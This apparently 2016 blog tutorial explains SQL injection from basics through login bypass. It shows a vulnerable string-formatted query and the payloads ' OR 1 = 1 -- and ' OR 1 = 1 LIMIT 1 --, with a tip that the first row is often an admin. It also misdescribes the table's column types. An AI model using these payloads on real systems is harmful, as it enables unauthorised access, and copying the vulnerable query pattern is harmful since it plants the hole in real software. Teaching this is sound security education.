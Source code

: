 ```yaml
---
layout: post
title: "SQL Injection Tutorial"
date: 2016-04-15
---
```


### What is SQL?

SQL stands for **S**tructrued **Q**uery **L**anguage.

Some properties of SQL are:

1. Tabular Database
2. Organized Layout (schema)

There are many different flavors of SQL, such as:

1. PostreSQL
2. MSSQL
3. MySQL
4. MariaDB
5. SQLite
6. ... and many, many more

Lots and lots of large products use SQL:

1. Android
2. iOS
3. Mozilla Firefox
4. Oracle
5. Microsoft
6. A lot... of websites...

### How do you use SQL?

As a demonstration, we can use Python's SQLite3 library as a quick demonstration:

<div class="codeblock">
<code>
&gt;&gt;&gt; import sqlite3
<br>
&gt;&gt;&gt; conn = sqlite3.connect("mydb.db")
<br>
&gt;&gt;&gt; c = conn.cursor()
<br>
&gt;&gt;&gt; c.execute("CREATE TABLE table1(a text, b integer)")
<br>
&lt;sqlite3.Cursor object at 0x10aad31f0&gt;
<br>
&gt;&gt;&gt; c.execute("INSERT INTO table1 VALUES ('yo', 1)")
<br>
&gt;sqlite3.Cursor object at 0x10aad31f0&gt;
<br>
&gt;&gt;&gt; c.execute("SELECT * FROM table1").fetchall()
<br>
[(u'yo', 1)]
<br>
</code>
</div>

The above creates a database called `mydb.db`. Then it creates a `cursor` object
that will "type" out commands to be executed in a `SQLite3`. This is just the
way Python implemented the SQLite library. The string we input into `c.execute`
is an SQLite command.

```
CREATE TABLE table1(a text, b integer)
```

This creates a table in the database called `table1` with the fields `a`, an
integer, and `b`, a text field.

The next command: `INSERT INTO table1 VALUES ('yo', 1)` will insert the row `yo, 1`
into `table1`.

The next command is what we care about in SQL injection:

```
SELECT * FROM table1
```
This is called a query. This particular query returns the entire table.

In an implementation of SQL that uses text replacement, it is very dangerous to
use *literal replacement*. In a literal replacement, it is possible for the
query itself to be modified to do something unintended. Consider the following
code in Python:

```
c.execute(“SELECT * FROM users WHERE uname = '%s'” % (uname)).fetchall()
```

Well what is this query supposed to do? This is a simple query that selects all
the users in the database who have the username that matches what the user
input. ... *But*... What if an evil person doesn't know a username, and wants
this query to return true? Or maybe he just wants all the usernames?

### Our first injection

<div class="codeblock">
<code>
SELECT * FROM users WHERE uname='$uname';
<br>
$uname = “' -- ”;
<br>
SELECT * FROM users WHERE uname='' -- ';
<br>
SELECT * FROM users WHERE uname='';
<br>
</code>
</div>

As you can see, the query becomes "Select all users with a blank username."

What if we try something similar:

<div class="codeblock">
<code>
SELECT * FROM users WHERE uname='$uname';
<br>
$uname = “' OR 1 = 1 -- ”;
<br>
SELECT * FROM users WHERE uname='' OR 1 = 1 -- ';
<br>
SELECT * FROM users WHERE uname='' OR 1 = 1;
<br>
SELECT * FROM users WHERE false OR true;
<br>
SELECT * FROM users WHERE true;
<br>
SELECT * FROM users;
<br>
</code>
</div>

As you can see, the simple query to match up an input username is turned into a
query to return all the rows in the database!

### But we have some limits...

Many login systems will restrict the number of returned rows to exactly 1 in
order to successfully log in, or display info. Clearly, it is bad practice as a
developer to just use:

<div class="codeblock">
<code>
if query.rows == 0:
<br>
    return False # Bad login
<br>
renderData() # Otherwise successful login!
<br>
</code>
</div>

(The above is just pseudo-code, that's not actually how you check the number of
returned rows.) Instead what most programs will mimic is something like this:

<div class="codeblock">
<code>
if query.rows != 1:
<br>
    return False # Bad login
<br>
renderData() # Otherwise successful login!
<br>
</code>
</div>

So how do we bypass this? Our first injection won't work unless there's exactly
one row in the database, and for most databases, that's simply not the case.

**The solution**: We can take advantage of the `LIMIT` keyword in SQL. In SQL,
the `LIMIT` keyword is a lot like the `head` command in Bash: it simply returns
the first `n` rows of a query. For example:

```
SELECT * FROM fruits WHERE type="apple" AND color="green" LIMIT 5;
```

This query selects the first 5 rows in `fruits` where the type of fruit is
"apple" and the color is "green".

We can use this in our injection:

<div class="codeblock">
<code>
SELECT * FROM users WHERE uname='$uname';
<br>
$uname = “' OR 1 = 1 LIMIT 1 -- ”;
<br>
SELECT * FROM users WHERE uname='' OR 1 = 1 LIMIT 1 -- ';
<br>
SELECT * FROM users WHERE uname='' OR 1 = 1 LIMIT 1;
<br>
SELECT * FROM users WHERE false OR true LIMIT 1;
<br>
SELECT * FROM users WHERE true LIMIT 1;
<br>
SELECT * FROM users LIMIT 1;
<br>
</code>
</div>

This will select the *first* row of the database. (**Tip**: Usually the first
row of the database is an admin user or some dummy user that a developer used
during testing and didn't want to / forgot to remove.

